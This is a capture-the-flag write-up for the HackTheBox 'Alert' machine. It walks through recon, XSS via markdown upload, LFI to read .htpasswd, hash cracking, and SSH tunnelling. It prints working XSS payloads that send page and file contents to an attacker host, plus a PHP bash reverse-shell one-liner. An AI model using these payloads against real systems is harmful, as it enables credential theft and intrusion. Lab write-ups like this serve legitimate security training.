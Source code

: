 ```yaml
---
title: Alert
tags:
  - HackTheBox
  - Easy
  - Linux
  - XSS
  - LFI
  - Brute-Forcing
  - Tunnelling
date: 2025-01-31T00:00:00Z
---
```

![](Pasted%20image%2020250131095721.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.44 alert.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- alert.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
12227/tcp filtered unknown
```

So I checked its website:

![](Pasted%20image%2020250131095847.png)

I uploaded a sample markdown to see if it actually worked:

![](Pasted%20image%2020250131100132.png)

> It did

I performed some vhost enumeration with [Ffuf 🐳](/notes/tools/Ffuf.md):

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb/ -H 'Host: FUZZ.alert.htb' -fc 301

[redacted]
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 46ms]
```

So I added it to my known hosts and visited it:

![](Pasted%20image%2020250131102936.png)

It seems that I need some credentials

## Exploitation

I managed to upload a XSS:

```md
<a href="javascript:alert('XSS')">Click Me</a>
```

![](Pasted%20image%2020250131100538.png)

So I decided to perform a deeper XSS by appending a payload to know what the app does when inspecting the link. I used this payload:

```js
<script>  
fetch("http://alert.htb/")  
  .then(response => response.text())  
  .then(data => {  
    fetch("http://10.10.14.7:8090/?data=" + encodeURIComponent(data));  
  })  
  .catch(error => console.error("Error fetching the messages:", error));  
</script>
```

![](Pasted%20image%2020250131103534.png)

Okey, now that we know that the payload works I'll try a LFI via XSS. I'll try to read `.htpasswd` file:
- Note that I first tried to get the `.htpasswd` file just inside apache2 but didn't work

```shell
<script>  
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htapasswd")  
  .then(response => response.text())  
  .then(data => {  
    fetch("http://10.10.14.7:8090/?file_content=" + encodeURIComponent(data));  
  });  
</script>
```

Got the link: `http://alert.htb/visualizer.php?link_share=679c9e462a00f7.46741851.md`

So I pasted it into the Contact Us endpoint:

![](Pasted%20image%2020250131105827.png)

![](Pasted%20image%2020250131105848.png)

I got some encrypted creds: `%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` -> `<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>` -> `albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/`

Now I'll brute force it with Hashcat
- Check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md) and [Hashcat hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](Pasted%20image%2020250131110214.png)

```shell
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --show
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

> I got creds :D `albert:manchesterunited`

Now I logged in `statistics.alert.htb`:

![](Pasted%20image%2020250131110701.png)

As I didn't see anything, I decided to try to ssh login with previous creds

### User flag

> Worked and got user flag :D

![](Pasted%20image%2020250131110935.png)

## Privilege Escalation

I checked open ports:

```shell
netstat -ant

Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:37622         127.0.0.1:80            TIME_WAIT  
tcp        0    224 10.10.11.44:22          10.10.14.7:49364        ESTABLISHED
tcp        0      1 10.10.11.44:54046       8.8.8.8:53              SYN_SENT   
tcp        0      0 127.0.0.1:37608         127.0.0.1:80            TIME_WAIT  
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN
```

```shell
curl -S 127.0.0.1:8080
```

![](Pasted%20image%2020250131112040.png)

I'll forward port 8080's traffic to my machine:

```shell
# In my machine I'll run:
ssh -L 1010:127.0.0.1:8080 -N albert@alert.htb
# Then visit http://localhost:1010/
```

![](Pasted%20image%2020250131112254.png)


I'll check the folder of the app:

```shell
ls -la /opt/website-monitor/

drwxrwxr-x 7 root root        4096 Oct 12 01:07 .
drwxr-xr-x 4 root root        4096 Oct 12 00:58 ..
drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 8 root root        4096 Oct 12 00:58 .git
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

I'll create a `shell.php` inside `/config` and give it execution permissions with the following content:

```shell
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.7/777 0>&1'"); ?>
```

> I get a reverse shell and can read root flag :D
### Root flag

![](Pasted%20image%2020250131113336.png)

==Machine pwned!==